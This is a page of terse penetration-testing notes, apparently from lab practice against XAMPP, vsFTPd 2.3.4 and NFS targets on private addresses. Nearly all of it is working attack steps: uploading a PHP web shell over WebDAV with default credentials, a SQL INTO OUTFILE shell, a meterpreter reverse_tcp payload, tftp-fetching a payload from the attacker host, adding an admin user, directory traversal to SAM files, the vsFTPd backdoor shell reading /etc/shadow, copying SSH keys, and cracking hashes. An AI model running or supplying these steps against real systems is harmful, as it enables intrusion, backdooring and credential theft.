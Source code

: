 # Quick Exploitation Notes
### In Kali:

cadaver http://192.168.2.22/webdav
Username:wampp
Password:xampp

upload test.txt

####

Browse to it with Iceweasel in Kali Linux.
Maybe instead of a txt file we should upload a shellcode.php file.

####

cd /usr/share/webshells/php and choose simple-backdoor.php file.
after you upload it to the webdav server, browse to it:

http://192.168.2.22/simple-backdoor.php?cmd=dir

Instead of dir you can run more interesting commands, such as:

net+localgroup+administrators , to view all users in the Administrators group.
####

There's also a metasploit module

use exploit/windows/http/xampp_webdav_upload_php

we can also automate the exploitation with metasploit.

####
msfvenom -p php/meterpreter/reverse_tcp -o

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.21 LPORT=1234 > meterpreter.php
Now use a multihandler in metasploit to listen for the call back from meterpreter.php

####
Use help exploit in case you want to use more options when you run exploit.
sessions -l  - to display sessions

####
SQL Commands:

select * "<?php system($_GET['cmd'] ); ?>" into outfile "C:\\xampp\htdocs\shell.php"

192.168.2.22/shell.php?cmd=dir
192.168.2.22/shell.php?cmd=net user hacker hacker /add


####
atftp --daemon --bind-address 192.168.2.21 /tmp

netstat -antp

####
192.168.2.22/shell.php?cmd=tftp 192.168.2.21 get meterpreter.php c:\\xampp\\htdocs\\meterpreter.php

####

Directory traversal :
192.168.2.22:3232/index.html?../../../../../boot.ini
192.168.2.22:3232/index.html?../../../../../WINDOWS/repair/sam
192.168.2.22:3232/index.html?../../../../../WINDOWS/repair/system
192.168.2.22:3232/index.html?../../../../../xampp/FileZillaFtp/FileZillaServer.xml

####
Using Backdoor to Access and FTP Server:
vsFTPd 2.3.4

ftp 192.168.2.80
user: hacker:)
pass:

Now let's try to connect to it:
nc 192.168.1.80 6200
whoami
cat /etc/shadow

####
Attaching to an IP Address:

showmount -e 192.168.2.21
(it will show the share /export/hacker * )

Make a mount point:
mkdir /tmp/hacker

Attach it:
mount -t nfs -o nolock 192.168.2.21:/export/hacker  /tmp/hacker

We could copy hacker's id_rsa and id_rsa.pub (public key) to the local system. We can also do a 'cat' on the authorized files.

cp /tmp/hacker/id_rsa /root/.ssh/

####
Password Attacks:
Once we have the sam and system files we can use Kali to dump the passwords:

#bkhive system syskey.txt
#samdump2 sam syskey.txt

####
For online password attacks we can use Hydra.

####

For Off-line password attacks, we can use j0hn.

john windows7hashes.txt --wordlist=/usr/share/john/password.lst --format=nt

Windows XP encrypts its passwords with LM hash (old Windows hashes)
Windows 7 encrypts its passwords with NTLM (new NTLM hashes)

####
a
